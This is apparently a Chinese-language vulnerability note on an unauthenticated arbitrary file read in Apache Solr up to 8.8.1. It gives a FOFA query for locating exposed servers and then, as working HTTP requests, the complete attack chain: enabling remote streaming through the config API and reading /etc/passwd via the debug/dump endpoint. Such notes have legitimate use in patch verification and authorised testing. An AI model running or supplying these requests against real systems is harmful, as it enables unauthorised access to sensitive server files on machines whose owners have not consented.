

# Apache Solr config 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

## 漏洞影响

<a-checkbox checked>Apache Solr <= 8.8.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 漏洞复现

访问 Solr Admin 管理员页面



获取core的信息

```
/solr/admin/cores?indexInfo=false&wt=json
```


发送请求

```
POST /solr/core/config 
Content-Type: application/json

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取

```
POST /solr/core/debug/dump?param=ContentStreams 

stream.url=file:///etc/passwd
```


